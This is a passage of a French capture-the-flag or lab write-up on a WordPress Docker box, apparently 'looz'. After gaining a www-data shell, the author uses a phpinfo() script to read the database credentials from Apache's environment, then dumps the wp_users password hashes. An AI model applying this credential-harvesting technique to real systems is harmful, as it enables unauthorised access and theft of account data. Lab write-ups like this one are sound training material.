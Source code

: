 ```php
}

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', getenv_docker('WORDPRESS_DB_NAME', 'wordpress') );

/** MySQL database username */
define( 'DB_USER', getenv_docker('WORDPRESS_DB_USER', 'example username') );

/** MySQL database password */
define( 'DB_PASSWORD', getenv_docker('WORDPRESS_DB_PASSWORD', 'example password') );

/**
 * Docker image fallback values above are sourced from the official WordPress installation wizard:
 * https://github.com/WordPress/WordPress/blob/f9cc35ebad82753e9c86de322ea5c76a9001c7e2/wp-admin/setup-config.php#L216-L230
 * (However, using "example username" and "example password" in your database is strongly discouraged.  Please use strong, random credentials!)
 */

/** MySQL hostname */
define( 'DB_HOST', getenv_docker('WORDPRESS_DB_HOST', 'mysql') );

```

Quand on est dans le shell on ne voit pas les variables en question :

```console
www-data@a5610f5f2480:/var/www/html$ env
PWD=/var/www/html
TERM=xterm-256color
SHLVL=1
_=/usr/bin/env
OLDPWD=/var/www/html/wp-content
```

Seul le process Apache doit pouvoir les voir. J'ai donc créé un script PHP pour afficher le `phpinfo()`. Là je pouvais voir les variables d'environnement qui m'intéressaient :

```
WORDPRESS_DB_NAME	wpdb
WORDPRESS_DB_USER	dbadmin
WORDPRESS_DB_PASSWORD	Ba2k3t
MYSQL_ENV_MYSQL_ROOT_PASSWORD	root-password
MYSQL_PORT_3306_TCP_ADDR	172.17.0.2
```

J'ai extrait les hashes de la DB grace à aux identifiants :

```
MariaDB [wpdb]> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------+--------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email       | user_url           | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+------------------+--------------------+---------------------+---------------------+-------------+--------------+
|  1 | john       | $P$B7CI2MiUu8APqQ2PO5yOCBVR9BuCIy. | john          | john@looz.com    | http://wp.looz.com | 2021-06-07 08:08:50 |                     |           0 | john         |
|  2 | william    | $P$Bn2/UkbAmUUOXzTm0ZVwx976yuVk1y1 | william       | william@looz.com |                    | 2021-06-07 11:23:07 |                     |           0 | William      |
|  3 | james      | $P$Bi0Yc8ROkGWja3QnxP85VCGdsL6P4r/ | james         | james@looz.com   |                    | 2021-06-07 11:26:00 |                     |           0 | James        |
|  4 | Evelyn     | $P$BbDP0k/c8yEyb3GFYUz0dWP1WC9Eut. | evelyn        | evelyn@looz.com  |                    | 2021-06-07 11:28:11 |                     |           0 | Evelyn       |
|  5 | Mason      | $P$Bz3vDbHtvMZY89mmi7gQbpYoX7yTvo1 | mason         | mason@looz.com   |                    | 2021-06-07 11:28:51 |                     |           0 | Mason        |
```